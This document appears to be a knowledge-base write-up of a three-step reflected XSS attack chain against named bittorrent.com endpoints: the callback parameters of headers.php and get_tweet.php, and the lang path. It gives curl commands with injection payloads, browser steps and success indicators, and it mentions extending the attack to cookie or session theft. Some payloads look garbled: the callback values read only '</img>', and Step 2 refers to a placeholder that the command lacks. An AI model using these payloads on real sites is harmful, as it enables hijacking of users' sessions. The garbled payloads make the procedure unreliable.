

# Reflected XSS Exploitation via Callback Parameters and Lang Path on bittorrent.com

Multi-stage attack chain demonstrating the discovery and exploitation of reflected XSS vulnerabilities in Bittorrent.com's web endpoints, leading to arbitrary JavaScript execution in browsers like IE and Firefox. The chain targets insufficient input sanitization in callback parameters of headers.php and get_tweet.php, as well as the lang path parameter, enabling client-side attacks such as alert popups that could be extended to steal cookies or session data.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Firefox or IE for testing execution)
- [[tools/Burp-Suite]] (optional for intercepting and modifying requests)

### Target Environment

- Web platform
- PHP-based services on Bittorrent.com
- No specific ports required; standard HTTPS (443)

### Initial Access Requirements

- Public internet access to Bittorrent.com
- No credentials needed; targets public-facing endpoints
- Victim must visit the crafted malicious URL

## Detailed Attack Procedures

### Step 1: Exploit Callback Parameter in headers.php
procedure: [[procedures/Exploit-XSS-in-headers-php-Callback-Parameter]]

**Objective**: Inject a malicious payload into the callback parameter of the headers.php endpoint to trigger reflected XSS and execute JavaScript in the victim's browser.

**Instructions**: Construct a URL with the payload and access it via a browser. Use [[commands/curl-fetch-url]] to verify reflection in the response, then test execution in a browser:

```bash
curl "https://www.bittorrent.com/scripts/site/headers.php?_=1586521900793&callback=</img>"
```

Open the URL in a browser to observe the alert popup.

**Expected Output**: The response reflects the payload, and in-browser execution shows an alert(1) dialog.

**Success Indicators**:
- Payload appears unsanitized in the HTTP response
- JavaScript alert executes in IE or similar browsers

### Step 2: Exploit Callback Parameter in get_tweet.php
procedure: [[procedures/Exploit-XSS-in-get_tweet-php-Callback-Parameter]]

**Objective**: Inject a similar XSS payload into the get_tweet.php endpoint's callback parameter, demonstrating consistent vulnerability across social script endpoints.

**Instructions**: Modify the URL with the payload and test via curl for reflection, followed by browser access for execution. Replace <PAYLOAD> with the img tag script:

```bash
curl "https://www.bittorrent.com/scripts/social/get_tweet.php?_=1586521900791&callback=</img>"
```

Visit the URL in a browser to confirm the alert.

**Expected Output**: Reflected payload in response body, with alert(1) triggering on load.

**Success Indicators**:
- Unsanitized callback output in JSONP-like response
- Arbitrary JS execution confirmed

### Step 3: Exploit Lang Path Parameter
procedure: [[procedures/Exploit-XSS-in-Lang-Path-Parameter]]

**Objective**: Exploit the lang path segment by injecting a reflected payload that triggers on mouseover, allowing stealthier client-side execution.

**Instructions**: Craft the URL with the onmouseover payload and access via browser. Use curl to check path handling:

```bash
curl "https://www.bittorrent.com/lang/x\" onmouseover=alert(0x018429) x=\" /bittorrent-android"
```

Hover over the affected element in Firefox to trigger the alert.

**Expected Output**: Page loads with injected attribute; mouseover executes alert(0x018429).

**Success Indicators**:
- Path parameter reflects HTML attributes without escaping
- Event-based JS execution on interaction

## Attack Chain Summary

### Key Achievements

1. Identified and exploited three distinct reflected XSS vectors in public endpoints.
2. Demonstrated cross-browser execution (IE and Firefox) via simple img tag payloads.
3. Highlighted potential for broader client-side attacks despite no bounty due to out-of-scope.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
